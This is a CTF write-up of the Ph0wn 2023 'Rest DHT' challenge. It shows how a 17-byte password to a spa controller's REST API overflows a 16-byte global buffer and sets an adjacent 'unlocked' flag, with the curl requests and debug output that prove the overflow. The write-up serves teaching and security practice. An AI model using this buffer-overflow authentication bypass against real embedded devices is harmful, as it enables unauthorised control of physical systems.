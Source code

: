 # Rest DHT by Cryptax

This challenge was part of Ph0wn CTF 2023. It was a *Pwn*, *Easy* challenge.

## Description of the challenge

```
Pico le Croco's spa is controlled via a REST API on http://xxxxxxx:8080 (local URL) + see code.
He wants to raise the temperature and humidity of his spa.
Can you help him be happy?

The **test** device which runs http://xxxx:8080 is meant to help you craft your exploit. You may not touch it.

Two **validation** devices, identical to the test one, are available on a table close the organizers (ask them if you can't locate it). You sit at that table, and use one of the devices to validate your exploit and get your flag.
The validation devices remain on that table at all times: you may *not* borrow them and take them away.
The validation stage is expected to be quick: test, flag and go. If you need more time, go back to the online test device. 
```

In addition, we are given a source code file: `spa.ino`.


## What we need to do

The flag is displayed if we manage to get high temperature and humidity. We touch the sensor, so there is no way we'll normally get such a high temperature and humidity.

```c
if (temperatureC > 60 && humidity > 100) {
    // get the flag
}
```

If we manage to manipulate *calibration* values, we'll be able to set temperature and humidity as high as we wish.

```c
temperatureC = rawC + calibrate_temp;
humidity = rawH + calibrate_hum;
```

## Calibrating

Unfortunately, calibration is a restricted operation which requires a password we do not have:

```c
// calibration is a restricted operation which requires credentials
void calibrate(bool temp) {
  checkArguments();
  unlock();
  if (! unlocked) {
    return server.send(401, "text/plain", F("Not authorized"));
  }
```

A correct calibration request must contain `pwd` (password) and `value` (calibration value) arguments.

```c
void checkArguments() {
  if (! server.hasArg("pwd") ) {
    server.send(401, "text/plain", F("Missing pwd"));
  }
  
  if (! server.hasArg("value") ) {
    return server.send(400, "text/plain", F("Missing calibration value"));
  }
}
```

We try and provide dummy data, but the password is (obviously) incorrect:

```
$ curl 'http://xxx:8080/calibrate/temperature?pwd=12&value=10'
Not authorized
```

## Spotting the vulnerability

Password checking occurs in the `unlock()` function:

```c
void unlock() {
  char secret[BUFFER_LEN] = CENSORED;
  String tmp_password = server.arg("pwd");
  tmp_password.toCharArray(password, tmp_password.length()+1);

  if (strncmp(password, secret, BUFFER_LEN-1) == 0) {
    Serial.println(F("Correct password!"));
    unlocked = true;
  }
}
```

Function `toCharArray` copies our input password (`tmp_password`) into global variable `password`. `password` is allocated 16 bytes (`BUFFER_LEN`), but `tmp_password` can be far longer and we copy all of it (`toCharArray` copies `tmp_password.length()+1` bytes). Consequently, we can *overflow* `password`.

```
#define BUFFER_LEN 16
bool unlocked = false;
char password[BUFFER_LEN];
```

If we *overflow* password, we can overwrite *unlocked* and make it become `true`.
This is confirmed by `/debug`:  the addresses of  `password` and `unlocked` are extremely close:

```
$ curl 'http://xxxxxx:8080/debug'
password addr= 3ffee5f0 value=
unlocked addr= 3ffee600 value=0
```

## Exploiting

To overflow the password, we need to provide more than 16 bytes. Let's provide 17 bytes, with 17th byte being `A`, a non-null value to overflow `unlocked` with a value different than 0:

```
 curl 'http://xxxxx:8080/calibrate/temperature?pwd=1234567890123456A&value=100'
Temperature calibration done
```

It works! We can confirm the overflow worked:

```
$ curl 'http://xxxx:8080/debug'
password addr= 3ffee5f0 value=1234567890123456A
unlocked addr= 3ffee600 value=65
```

To get the flag, we must calibrate humidity as well:

```
$ curl 'http://xxxx:8080/calibrate/humidity?pwd=1234567890123456A&value=100'
Humidity calibration done
```

Then, we read:

```
$ curl 'http://xxxx:8080/data'
Prepare your exploit and read the flag on serial port
```

Connect to the serial port with `picocom /dev/ttyUSB0 -b 115200`. Do the exploit again:

```
[+] HTTP REST server started on port 8080
[+] calibrate_hum=100.00
[+] calibrate_temp=100.00
Congrats! Here is your flag: ph0wn{w0w_your_spa_is_hot++}
[+] reset() done
```
\newpage
